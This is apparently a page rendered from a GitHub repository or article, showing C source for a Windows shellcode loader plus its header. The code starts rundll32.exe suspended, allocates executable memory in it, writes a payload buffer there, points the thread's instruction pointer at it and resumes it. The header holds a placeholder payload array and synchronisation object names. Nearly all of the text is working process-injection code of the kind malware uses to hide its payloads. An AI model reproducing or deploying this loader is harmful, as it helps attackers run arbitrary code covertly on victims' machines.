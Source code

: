 ```c
		// Create a suspended process, write shellcode into stack, make stack RWX, resume it
		DWORD result = CreateProcess(NULL, "rundll32.exe", NULL, NULL, TRUE, CREATE_SUSPENDED|IDLE_PRIORITY_CLASS|CREATE_BREAKAWAY_FROM_JOB, NULL, NULL, &si, &pi);
		
		// If we fail, try again without the CREATE_BREAKAWAY_FROM_JOB flag in the event that we are in a job but we can't break away from it.
		if (result == FALSE){
			result = CreateProcess(NULL, "rundll32.exe", NULL, NULL, TRUE, CREATE_SUSPENDED|IDLE_PRIORITY_CLASS, NULL, NULL, &si, &pi);
		}

		if (result) {
			ctx.ContextFlags = CONTEXT_INTEGER|CONTEXT_CONTROL;
			GetThreadContext(pi.hThread, &ctx);

			ep = (LPVOID) VirtualAllocEx(pi.hProcess, NULL, SCSIZE, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

			WriteProcessMemory(pi.hProcess,(PVOID)ep, &code, SCSIZE, 0);

	#ifdef _WIN64
			ctx.Rip = (DWORD64)ep;
	#else
			ctx.Eip = (DWORD)ep;
	#endif

			SetThreadContext(pi.hThread,&ctx);

			ResumeThread(pi.hThread);
			CloseHandle(pi.hThread);
			CloseHandle(pi.hProcess);
		}
	}
	ExitThread(0);
}
```

Header source code

```c
#ifndef SCSIZE
#define SCSIZE 4096
#endif
unsigned char code[SCSIZE] = "PAYLOAD:";
char szSyncNameS[MAX_PATH] = "Local\\Semaphore:Default\0";
char szSyncNameE[MAX_PATH] = "Local\\Event:Default\0";
```

---
## References
